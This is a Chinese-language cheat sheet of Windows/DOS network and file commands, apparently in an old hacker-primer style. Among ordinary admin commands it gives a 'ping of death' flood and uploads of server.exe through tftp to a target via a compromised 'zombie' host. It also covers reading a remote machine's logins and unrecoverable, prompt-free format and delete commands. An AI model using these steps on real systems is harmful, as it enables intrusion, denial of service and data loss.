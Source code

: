 net share 查看本地开启的共享
net share ipc$ 开启ipc$共享
net share ipc$ /del 删除ipc$共享
net share c$ /del 删除C：共享
net user guest 12345 用guest用户登陆后用将密码改为12345
net password 密码 更改系统登陆密码
netstat -a 查看开启了哪些端口,常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
 
tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
 
ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
 
ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
 
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息

telnet ip 端口 远和登陆服务器,默认端口为23
telnet 在本机上直接键入telnet 将进入本机的telnet

open ip 连接到IP（属telnet登陆后的命令）

tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
 
tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
 
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
 
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
 
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
 

 

磁盘管理
fdisk 隐含 参数 /mbr 重建主引导记录fdisk /mbr 重建主引导记录
　　fdisk 在DOS7.0以后增加了/cmbr参数，可在挂接多个物理硬盘时，重建排序在后面的硬盘的主引导记录，例如：fdisk /cmbr 2，可重写第二个硬盘的主引导记录。（在使用时要十分小心，避免把好的硬盘引导记录损坏）
　　format 参数： /q 快速格式化 /u 不可恢复 /autotest 不提示 /s 创建 MS-DOS 引导盘 format c: /q /u /autotest
2.目录操作
　　DIR [目录名或文件名] [/S][/W][/P][/A] 列出目录 参数: /s 查找子目录/w 只显示文件名 /p 分页/a 显示隐藏文件 DIR format.exe /s查找该盘的format.exe文件并报告位置
　　MD (MKDIR) [目录名] 创建目录 MKDIR HELLOWORLD 创建HELLOWORLD目录 
　　CD (CHDIR) [目录名] PS:可以使用相对目录或绝对目录 进入目录 CD AA 进入当前文件夹下的AA目录,cd .. 进入上一个文件夹cd \返回根目录;cd c:\windows 进入c:\windows文件夹
　　RD ( RMDIR) [目录名] 删除目录 RD HELLOWORLD 删除HELLOWORLD目录
3.文件操作
　　删除目录及其文件： rmdir [目录名或文件名] [/S][/W][/P][/A] 。例 rmdir c:\qqdownload/s 删除C盘的qqdownload目录。
　　del [目录名或文件名] [/f][/s][/q] 删除 参数:/f 删除只读文件/s 删除该目录及其下的所有内容 /q 删除前不确认
　　del c:\del /s /q 自动删除c盘的del目录。
　　copy [源文件或目录] [目标目录] 复制文件 copy d:\pwin98\*.* c:\presetup 将d盘的pwin98的所有文件复制到c盘的presetup下。
　